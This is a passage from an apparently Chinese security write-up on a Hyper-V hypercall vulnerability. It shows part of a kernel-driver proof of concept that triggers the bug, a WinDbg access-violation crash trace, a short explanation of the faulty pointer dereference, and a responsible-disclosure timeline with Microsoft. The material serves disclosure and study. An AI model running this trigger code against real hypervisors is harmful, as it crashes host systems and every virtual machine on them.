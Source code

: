 ```
    _In_ PUNICODE_STRING RegistryPath
    )
`{`
    void* hypercall_page;
    hv_msr_contents hc_page, assist;
    PHYSICAL_ADDRESS pa_hcpage;
    NTSTATUS status = enable_vmxe();

    if (!NT_SUCCESS(status))
        return status;

    hc_page.as_uint64 = __readmsr(HV_X64_MSR_HYPERCALL);
    pa_hcpage.QuadPart = hc_page.u.guest_physical_address &lt;&lt; PAGE_SHIFT;
    hypercall_page = MmMapIoSpace(pa_hcpage, PAGE_SIZE, MmNonCached);
    memset(&amp;assist_page, 0, sizeof(assist_page));
    assist.as_uint64 = MmGetPhysicalAddress(&amp;assist_page).QuadPart;
    assist.u.enable = 1;
    __writemsr(HV_X64_MSR_VP_ASSIST_PAGE, assist.as_uint64);
    ((TriggerCall)trigger)(hypercall_page); // Boom
    return status;
`}`
```

PoC中，基址计算的结果是对哈希表对象的桶数的偏移，应返回的对象第一个字段是传给下一个函数的指针。函数得到的是0x10（桶数），然后对其解引用导致系统崩溃。

```
Access violation - code c0000005 (!!! second chance !!!)
hv+0x30548c:
fffffbf3`a090548c 488b01          mov     rax,qword ptr [rcx]
3: kd&gt; r rcx
rcx=0000000000000010
3: kd&gt; kb
 # RetAddr           : Args to
Child                                                           : Call Site
00 fffffbf3`a0904cce : ffffe802`c5604190 ffffe802`c56048c0
00000000`00000003 ffffe802`c5608050 : hv+0x30548c
01 fffffbf3`a09026f3 : ffffe802`c5604050 fffffbf3`a1201068
00000000`00000001 fffffbf3`a090f7e9 : hv+0x304cce
02 fffffbf3`a08b6363 : 00000000`00000010 ffff9d86`d2a8f7b8
00000000`00000000 00000000`00000000 : hv+0x3026f3
03 fffffbf3`a0829068 : 00000000`00000000 00000000`00000002
00000000`00000000 fffffbf3`a082ea1e : hv+0x2b6363
04 fffffbf3`a0828cf2 : 00000000`00000000 fffffbf3`a08255c1
ffffe802`c5608050 fffffbf3`a081d842 : hv+0x229068
05 fffffbf3`a081e1de : 00000000`00000000 00000000`0010003a
00000000`0010003a 00000000`000100af : hv+0x228cf2
06 fffffbf3`a08734f6 : 00000000`00000000 ffffe802`c5608000
00000000`800000ff 00000000`00000001 : hv+0x21e1de
07 00000000`00000000 : 00000000`00000000 00000000`00000000
00000000`00000000 00000000`00000000 : hv+0x2734f6

```



## 0x04 时间线

2020-06-02：漏洞报告发送至[secure@microsoft.com](mailto:secure@microsoft.com)<br>
2020-07-21：微软确认奖金15000美元<br>
2020-09-08：微软发布补丁
